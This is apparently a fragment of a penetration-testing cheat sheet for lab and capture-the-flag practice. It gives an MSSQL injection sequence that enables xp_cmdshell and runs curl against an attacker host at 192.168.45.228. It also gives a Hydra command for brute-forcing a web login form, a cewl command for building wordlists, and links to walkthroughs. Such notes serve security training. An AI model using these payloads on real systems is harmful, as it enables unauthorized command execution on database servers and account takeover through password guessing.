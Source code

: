 On Windows:
```shell
';EXECUTE sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXECUTE sp_configure 'xp_cmdshell', 1;--
';RECONFIGURE;--
';EXECUTE xp_cmdshell 'curl http://192.168.45.228/test';--
```

UNION based DB exfiltration:
- [DC-9](https://benheater.com/vulnhub-dc9/)
- [Insanity Hosting](https://medium.com/@vaibhavc418/offensive-security-insanity-hosting-walkthrough-f036b27fcca9)


---


## Brute forcing 

Brute force login page using Hydra:
```bash
hydra -L users -P pass <IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

A custom wordlist can be created using cewl on a website to generate a custom wordlist:
- https://www.hackingarticles.in/a-detailed-guide-on-cewl/
```bash
cewl <URL>
```
